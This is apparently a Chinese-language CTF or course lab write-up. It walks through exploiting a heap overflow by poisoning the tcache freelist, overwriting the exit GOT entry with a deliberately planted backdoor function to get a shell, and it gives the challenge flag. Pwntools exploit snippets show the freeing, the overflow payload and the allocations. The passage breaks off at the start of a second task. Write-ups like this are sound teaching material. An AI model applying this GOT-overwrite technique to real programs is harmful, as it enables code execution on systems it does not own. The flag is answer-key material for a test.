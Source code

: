​	利用 `overflow/overflow.c` 中的堆溢出漏洞，通过劫持 freelist 的方式（10 points），写 exit GOT 表数据将执行流劫持到 `backdoor` 函数，从而完成弹 shell，执行 `flag.exe` 取得 flag（5 points）

​	

​	前面我们已经获取了堆溢出的方式，现在我们要做的是将`exit`函数执行流劫持到 `backdoor` 函数。我们构造三组堆（也就是三个用户），

​	之后，我们释放两个非相邻的块，这些块会被放入 tcachebins 等待复用

```python
handle_del(0, b"1")
handle_del(2, b"1")
```

<img src="https://bu.dusays.com/2024/12/03/674f0470b0ac3.png" alt="image-20241203211504921" style="zoom:50%;" />





​	接下来重新分配堆块，将info[1] 溢出覆盖到 info[2]，将 info[2] 的 fd 指针指向exit函数的 GOT 表项。

```python
payload = b"C" * 0x40  # 填充intro
#保留下一个堆的 prev_size 和 size
payload += p64(0) + p64(0x71)
payload += p64(elf.got["exit"])

handle_edit(1, b"1", b"user2", payload, b"A")
```

​	第一次分配会使用正常的 tcachebin，但第二次分配时，由于之前的伪造，会将chunk分配到exit的GOT表位置，通过 name 字段写入 backdoor 函数地址。

```python
handle_add(b"user0", b"1", b"A" * 0x3f, b"1")
# gdb.attach(p)

name = p64(elf.sym["backdoor"])
log.info(f"name:{hex(elf.sym['backdoor'])}")

handle_add(name, b"1", b"B" * 0x20, b"1")

p.sendlineafter(b"> ", str(10))
```

​	之后申请新堆块,触发freelist使用被篡改的fd，写入backdoor函数地址到name字段。之后让程序执行 exit()，即完成攻击

​	

![image-20241203215128901](https://bu.dusays.com/2024/12/03/674f0cf8c07f4.png)

​	flag: ssec2023{FreElisT_hijackINg_Is_pOwERful|f1d439b6}

### 2.

​	首先 ldd 查看并调整 libc 路径

![image-20241203222325081](https://bu.dusays.com/2024/12/03/674f14654c9d3.png)
